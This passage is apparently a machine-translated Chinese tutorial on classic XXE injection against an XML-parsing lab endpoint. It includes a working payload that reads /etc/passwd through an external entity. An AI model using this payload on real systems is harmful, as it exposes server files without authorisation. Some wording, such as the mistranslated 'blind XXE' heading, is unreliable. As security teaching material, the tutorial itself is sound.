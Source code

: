 ‌

# 经典 XXE

在经典的 XXE 中，攻击者只需要创建一个简单的外部实体来读取本地文件，并通过 XML 解析器将要解析的元素调用该实体。

网上实验室的请求。

![](img/5b002149334c0db59ca87c30ab8c30f2.png)

从服务器响应结果可以看出，电子邮件元素将被解析和显示，因此经典的 XXE 可以用来读取本地文件。

‌ **有效载荷:**

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root[<!ENTITY file SYSTEM "file:///etc/passwd">]><root><name>test</name><tel>082</tel><email>&file;</email><password>pwd</password></root>
```

![](img/d03a4f8097fbd4167f25fa0bb20190cb.png)

# 盲人 XXE——XXE 乐队之外

